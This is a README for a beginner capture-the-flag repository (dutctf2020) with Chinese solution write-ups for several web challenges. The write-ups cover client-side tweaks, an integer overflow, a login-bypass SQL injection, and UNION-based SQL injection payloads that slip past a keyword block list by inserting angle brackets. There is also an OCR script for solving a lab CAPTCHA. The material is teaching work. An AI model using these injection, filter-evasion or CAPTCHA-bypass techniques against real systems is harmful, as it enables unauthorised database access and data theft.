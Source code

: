 # dutctf
dutctf2020 source code
* 
## notes
The challenges in this repo are real simple, with the goal of popularizing information security knowledge.
- [web-tutorial](#web-tutorial)
- [web1](#web1)
- [web2](#web2)
- [vol_time_1](#vol_time_1)
- [vol_time_2](#vol_time_2)
- [web5](#web5)

---- 
## web-tutorial 
### 方法1 
审查元素，发现按钮被禁用，去除disabled属性后点击按钮获得flag
### 方法2 
检查html源代码发现引用了web1.js，查看web1.js直接获得flag

---- 
## web1 
### 方法1  
审查元素，去除button的id=button1属性（或其他属性，如onmouseover或直接禁用相应css）后点击按钮获得flag
### 方法2
检查html源代码发现引用了混淆过的web2.js，上网寻找js反混淆器，对web2.js反混淆，直接获得flag

---- 
## web2
题目用golang编写，存放用户余额的变量用了int32（-2,147,483,648 到 2,147,483,647），且对用户输入过滤不完整，允许负整数输入，故输入超大负整数
以造成溢出（如-123123123），余额足够后购买flag

---- 
## vol_time_1
题目提示很明确，最基本的sql注入，原语句为`"SELECT * from user WHERE account='$username' AND psw='$password' LIMIT 0,1";`，核心为通过闭合引号或闭合引号并添加注释
来对原有的sql语句转义。提示中提到用“admin”账号登录，故构造payload：用户名为admin'#，则实际执行的sql语句为`SELECT * from user WHERE account=admin`，成功返回一条结果，
成功进入管理页面。

----
## vol_time_2
这是一道稍复杂的ctf sql注入题，首先尝试进行查询，发现只能查学号1，2，3的用户，且关键字如select，union等被过滤，故使用路径扫描器，如[dirsearch.py](https://github.com/maurosoria/dirsearch)，发现在项目根目录下有www.zip此处模拟的是开发者在上传源码后未将源码压缩包删除且nginx配置不合理），打开发现是个mvc架构的php应用，
进入controllers文件夹发现只有一个有效控制器Vol.php。
```
$num = $_POST['number'];             
//$num = intval($num);    //转下数据类型
$array = array('table','union','and','or','load_file','create','delete','select','update','sleep','alter','drop','truncate','from','max','min','order','limit');
foreach ($array as $value){
   if (substr_count($num, $value) > 0){
      exit('包含敏感关键字！');
   }
}
$sum = strip_tags($num);
$sql = "SELECT * from vt_bak WHERE stu_id={$num} LIMIT 1";
```
发现此段代码有逻辑问题，先进行了关键字检查再去除了成对尖括号。这样会导致sel<>ect被过滤成select。发现了漏洞。
同时由于返回的json是用返回纯数字下标数组的query方法生成的，相当于普通有回显的sql注入。
以下为payload：
出数据库:  
number=-1 unio<>n selec<>t 1,2,3,4,5,6,7,8,9,10,database()#
```
{"name":"2","data":"
1<\/p><\/td>

2<\/p><\/td>

4<\/p><\/td>

5<\/p><\/td>

6<\/p><\/td>

8<\/p><\/td>

7<\/p><\/td>

vol_time_2<\/p><\/td><\/tr>","all_time":6}
```
出表名
number=-1+unio<>n+sele<>ct+1,2,3,4,5,6,7,8,9,10,concat(group_concat(distinct+tab<>le_name))+fro<>m+info<>rmation_schema.ta<>bles+where+ta<>ble_sche<>ma='vol_time_2'#
```
{"name":"2","data":"
1<\/p><\/td>

2<\/p><\/td>

4<\/p><\/td>

5<\/p><\/td>

6<\/p><\/td>

8<\/p><\/td>

7<\/p><\/td>

flag,vt_bak<\/p><\/td><\/tr>","all_time":6}
```
发现flag表，出flag表列名
number=-1+uni<>on+sele<>ct 1,2,3,4,5,6,7,8,9,10,concat(group_concat(distinct+col<>umn_name))+f<>rom+info<>rmation_sc<>hema.colu<>m<>ns+where+tab<>le_schema="vol_time_2" a<>nd tab<>le_na<>me="fl<>ag"#+
```
{"name":"2","data":"
1<\/p><\/td>

2<\/p><\/td>

4<\/p><\/td>

5<\/p><\/td>

6<\/p><\/td>

8<\/p><\/td>

7<\/p><\/td>

flag,id<\/p><\/td><\/tr>","all_time":6}
```
发现flag字段，出内容
number=-1 uni<>on se<>lect 1,2,3,4,5,6,7,8,9,10,fla<>g fro<>m fl<>ag
```
{"name":"2","data":"
1<\/p><\/td>

2<\/p><\/td>

4<\/p><\/td>

5<\/p><\/td>

6<\/p><\/td>

8<\/p><\/td>

7<\/p><\/td>

dutctf{simple_logic_error}<\/p><\/td><\/tr>","all_time":6}
```
---- 
## web5
题目写的很明白，在时间范围内输对验证码就能拿flag
### 方法1 
识别验证码需要ocr，此处使用pytesseract，[具体用法](https://www.google.com)  
python脚本
```
import pytesseract,time,re
import base64
from PIL import Image
from io import BytesIO
def base64_to_image(base64_str, image_path=None):
    base64_data = re.sub('^data:image/.+;base64,', '', base64_str)
    byte_data = base64.b64decode(base64_data)
    image_data = BytesIO(byte_data)
    img = Image.open(image_data)
    if image_path:
        img.save(image_path)
    return img
t1 = time.time()

import requests,json
res = ''
alphabet = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'
s = requests.session()
r = s.post('http://10.7.20.225/web5/captcha',data=json.dumps({'captcha':'abcde'}))
img_b64 = json.loads(r.text).get('cpt')
print(len(img_b64))
print(json.loads(r.text).get('msg'))
img = base64_to_image(img_b64)
img.show()
text = pytesseract.image_to_string(img)
print(text)
for i in text:
    if i in alphabet:
        res += i
print(res.lower())
cpt = res.lower()[0:6]
print(cpt)
# get captcha
r = s.post('http://10.7.20.225/web5/captcha',data=json.dumps({'captcha':cpt}))
print('time taken:',time.time()-t1)
img_b64 = json.loads(r.text).get('cpt')

print(len(img_b64))
print(json.loads(r.text).get('msg'))
exit()


print(text)
print(time.time()-t1)
r = requests.post('http://10.7.20.225/web5/captcha',data=json.dumps({'captcha':text}),headers={"Cookie":cookie})
print(r.text)
```
### 方法2
晚点放
